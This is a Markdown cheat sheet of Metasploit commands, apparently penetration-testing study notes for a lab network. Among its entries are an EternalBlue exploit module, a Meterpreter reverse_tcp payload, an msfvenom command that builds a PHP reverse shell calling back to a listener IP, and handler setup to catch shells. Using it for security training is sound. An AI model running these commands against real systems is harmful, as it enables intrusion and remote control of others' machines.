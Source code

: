 # Cheatsheet — Metasploit Exploitation
| Command / Action | Example | Purpose |
|---|---|---|
| Start msfconsole | `msfconsole` | Launch Metasploit interactive console |
| Search modules | `search ms17-010` or `search type:auxiliary vnc` | Find exploits/auxiliaries/payloads by keyword, CVE, type, platform |
| Use module | `use exploit/windows/smb/ms17_010_eternalblue` or `use 2` | Enter module context |
| Module info | `info` or `info <module>` | View module metadata, targets, caveats, references |
| Show options | `show options` | List required/optional settings for current module |
| Set parameter | `set RHOSTS 10.10.12.229` | Configure module-scoped option |
| Set global parameter | `setg LHOST 10.10.44.70` | Make option persist across modules |
| Unset / flush | `unset RHOSTS` / `unset all` / `unsetg LHOST` | Remove single/all/global settings |
| Show payloads | `show payloads` | List payloads compatible with current exploit |
| Choose payload | `set PAYLOAD windows/x64/meterpreter/reverse_tcp` | Select payload for exploit |
| Run / exploit | `exploit` or `run` | Launch the module |
| Run and background | `exploit -z` | Launch and immediately background the session |
| Safe check | `check` | Probe target for vulnerability (when supported) |
| List sessions | `sessions` | Show active sessions created by exploits |
| Interact session | `sessions -i <id>` | Attach to a session for interaction |
| Background session | `background` or `CTRL+Z` | Send interactive session to background |
| Kill session(s) | `sessions -k <id>` / `sessions -K` | Terminate session(s) |
| Upgrade shell | `sessions -u <id>` | Attempt to upgrade a shell to Meterpreter |
| Run command on session | `sessions -c 'whoami' -i <id>` | Execute command on a session non-interactively |
| Run OS commands from msfconsole | `exec: <command>` or just `ls` | Execute local OS commands (limited features) |
| Start PostgreSQL (Linux) | `systemctl start postgresql` | Start DB backend for msfdb |
| Initialize DB | `sudo -u postgres msfdb init` | Create Metasploit DB (run non-root/postgres) |
| Check DB status | `db_status` | Verify connection to PostgreSQL backend |
| Workspaces list/add/switch | `workspace` / `workspace -a name` / `workspace name` | Manage project isolation |
| Run Nmap + import | `db_nmap -sV -p- 10.10.12.0/24` | Run Nmap and store results in DB |
| List hosts/services | `hosts` / `services` | Query DB-imported hosts and services |
| Populate module RHOSTS from DB | `hosts -R` (inside module) | Load saved hosts into module RHOSTS |
| Find scanners | `search portscan` / `search type:auxiliary smb` | Discover Metasploit scanning modules |
| Run scanner | `use auxiliary/scanner/portscan/tcp` → `set RHOSTS ...` → `run` | Perform in-console port/service scans |
| UDP quick sweep | `use auxiliary/scanner/discovery/udp_sweep` → `run` | Fast check for common UDP services |
| Generate payload (msfvenom) | `msfvenom -p php/reverse_php LHOST=10.10.44.70 LPORT=7777 -f raw > shell.php` | Create payload in chosen format |
| List msfvenom payloads/formats | `msfvenom -l payloads` / `msfvenom --list formats` | View available payloads / output formats |
| Encode payload (msfvenom) | `-e php/base64` | Encode payload (obfuscation, not guaranteed AV bypass) |
| Make payload executable | `chmod +x rev_shell.elf` | Ensure correct permissions on *nix binaries |
| Start handler | `use exploit/multi/handler` → `set payload ...` → `set LHOST ...` → `run` | Catch reverse shells / Meterpreter callbacks |
| Use DB creds/wordlists in scanners | `set DB_ALL_CREDS true` / `set PASS_FILE /path/to/wordlist` | Leverage DB-stored credentials and wordlists |
| Tune performance/noise | `set THREADS 10` / `set CONCURRENCY 20` / `set DELAY 50` | Balance scan speed vs detectability |
| Save reproducible notes | Record module path, options, payload, workspace, sessions, outputs | For reporting and repeatability |

*Tip:* always `info` and `show options` after `use <module>`. Prefer `db_nmap` + DB queries for repeatable engagements and `msfvenom` + `exploit/multi/handler` for custom payload delivery.
